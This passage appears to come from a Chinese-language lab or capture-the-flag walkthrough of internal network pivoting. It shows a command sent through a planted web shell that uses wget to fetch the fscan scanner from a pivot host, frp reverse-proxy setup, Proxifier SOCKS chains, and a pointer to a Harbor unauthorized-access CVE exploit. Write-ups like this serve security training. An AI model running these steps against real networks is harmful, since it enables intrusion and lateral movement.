 ### 内网信息收集

![image-20240903180913566](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903180913566.png?imageSlim)

上传fscan，扫描172.22.14.0/24网段

```
http://172.28.23.26/upload/.antproxy.php?a=system("wget http://172.28.23.17:8080/fscan");
```

### 内网二层代理

**172.28.23.17**

```
chmod +x frps
nohup ./frps -c frps.ini &
```

172.28.23.33

```
chmod +x frpc
nohup ./frpc -c frpc.ini &
```

Proxifier Chains

```
socks5 <your-ip> <your-port>
socks5 172.28.23.17 <your-port>
```

代理链

![image-20240904213403727](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240904213403727.png?imageSlim)

代理规则

![image-20240904213342504](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240904213342504.png?imageSlim)

第二层打通，扫一下172.22.14.0/24网段

![image-20240904214110671](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240904214110671.png?imageSlim)

成功访问 Harbor：

## 第二层

### 172.22.14.46- Harbor

![image-20240904213425890](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240904213425890.png?imageSlim)

Harbor 公开镜像仓库未授权访问 CVE-2022-46463

https://github.com/404tk/CVE-2022-46463
